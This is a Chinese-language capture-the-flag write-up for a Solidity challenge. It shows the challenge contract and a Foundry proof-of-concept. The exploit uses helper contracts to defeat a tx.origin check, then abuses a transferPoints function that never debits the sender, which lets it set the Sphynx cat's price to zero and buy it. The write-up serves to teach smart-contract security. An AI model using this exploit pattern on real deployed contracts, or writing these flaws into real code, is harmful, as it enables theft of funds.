

## cat

### 目标：

成功买下价值为60000 ether的斯芬克斯猫

### 思路

看到源码直接找到`isSolved()`函数，发现只有`buy()`函数可以使`Buyed["Sphynx"]`为true，只要手中积分足够，可以利用`changePrice()`可以修改猫的价格，在`changePoints()`函数中可以先获得10000积分，`changePoints()` 内部有一个 `_isOffBalance()` 检查，它要求 `tx.origin != msg.sender`。所以必须要写一个攻击合约。想要使手中积分为60000 ether，可以利用`transferPoints()`函数，在两个账户中反复转钱，使账户的积分>=60000 ether，从而修改斯芬克斯猫的价格，白嫖一只猫

### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.9;

contract Cat {

    mapping(string => uint256) public price;
    address public owner;
    mapping(address => uint256) public Points;
    mapping(string => bool) public Buyed;
    uint256 public amount = 1e22; //10000 ether
    uint256 public init;
    bool onlyOne;
    constructor() payable {

        price["American_Shorthair"] = 30000 ether;  // 美短
        price["British_Shorthair"] = 35000 ether;   // 英短
        price["Persian"] = 40000 ether;             // 波斯猫
        price["Maine_Coon"] = 50000 ether;          // 缅因猫
        price["Siamese"] = 32000 ether;             // 暹罗猫
        price["Bengal"] = 45000 ether;              // 孟加拉豹猫
        price["Ragdoll"] = 38000 ether;             // 布偶猫
        price["Sphynx"] = 60000 ether;              // 斯芬克斯猫（无毛猫）
        price["Scottish_Fold"] = 42000 ether;       // 苏格兰折耳猫
        price["Abyssinian"] = 35000 ether;          // 阿比西尼亚猫
        price["Norwegian_Forest"] = 48000 ether;    // 挪威森林猫
        price["Russian_Blue"] = 40000 ether;        // 俄罗斯蓝猫
        price["Birman"] = 37000 ether;              // 伯曼猫
        price["Turkish_Angora"] = 42000 ether;      // 土耳其安哥拉猫
        price["Egyptian_Mau"] = 55000 ether;        // 埃及猫
        price["Exotic_Shorthair"] = 33000 ether;    // 异国短毛猫（加菲猫）
        price["Devon_Rex"] = 38000 ether;           // 德文卷毛猫
        price["Cornish_Rex"] = 39000 ether;         // 柯尼斯卷毛猫
        price["Tonkinese"] = 34000 ether;           // 东奇尼猫
        price["Burmese"] = 31000 ether;             // 缅甸猫
    
    }

    function setPrice(string memory name, uint256 value) internal {
        price[name] = value;
    }

    function buy(string memory name) public payable {
        require(!Buyed[name], "Already bought");
        require(msg.value >= price[name], "Not enough ether");
        Buyed[name] = true;
    }

    function changePoints(uint256 points) public returns (bool) {
        require(points >0 && points <= amount,"Invalid points");
        if (owner == address(0)){
            owner = msg.sender;
        }

        if(_isOffBalance() && owner != msg.sender) {
            Points[msg.sender] = points;
        } else {
            Points[msg.sender]-= 0;
        }
    }
    
    function changePrice(string memory name, uint256 newPrice) public {
        require(msg.sender != address(0), "Invalid sender");
        require(Points[msg.sender] >= price[name],"Not enough points");
        setPrice(name, newPrice);
    }

    function _isOffBalance() private view returns (bool) {
        return tx.origin != msg.sender;
    }

    function buyPoints() public payable {
        require(!onlyOne,"Only one time");
        require(msg.value > 0 && msg.value <= 1 ether,"Not enough ether");
        Points[msg.sender] += msg.value * 10000;
        onlyOne = true;
    }

    function transferPoints(address to, uint256 points) public {
        require(init <= 4,"Not init");
        require(to != msg.sender, "Invalid recipient");
        require(points > 0 && points <= Points[msg.sender], "Not enough points");
        require(points <= amount*2,"Invalid points");
        Points[to] += points;
        init ++;
    }

     function isSolved() public view returns (bool) {
        return Buyed["Sphynx"];
    }
}
```

### poc：

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.9;

import "forge-std/Script.sol";

interface ITarget{
    function changePoints(uint256 points) external returns (bool);
    function changePrice(string memory name, uint256 newPrice) external;
    function buy(string memory name) external payable;
    function transferPoints(address to, uint256 points) external;
}

contract Exploiter {
    ITarget public target = ITarget(0x95fa2f46ba9217Fe23b44bDD1BFC439037319D69);
    
    receive() external payable {}

    function sendmoney() external{
         target.changePoints(10000 ether); 
    }
    function hack(address to, uint256 amount) external {
        target.transferPoints(to, amount);
    }
}
contract Attack is Script {
    function run() external payable{
        vm.startBroadcast();
 
        ITarget target = ITarget(0x95fa2f46ba9217Fe23b44bDD1BFC439037319D69);
        string memory name = "Sphynx";
        uint256 newPrice = 0;

        target.changePoints(1); 

         Exploiter a = new Exploiter();
         Exploiter b = new Exploiter();
         a.sendmoney();
         b.sendmoney();
         a.hack(address(b), 10000 ether);
         b.hack(msg.sender, 20000 ether);
         b.hack(msg.sender, 20000 ether);
         b.hack(msg.sender, 20000 ether);

         target.changePrice(name, newPrice);
         target.buy{value: 0}(name);


         vm.stopBroadcast();
    }
}
```


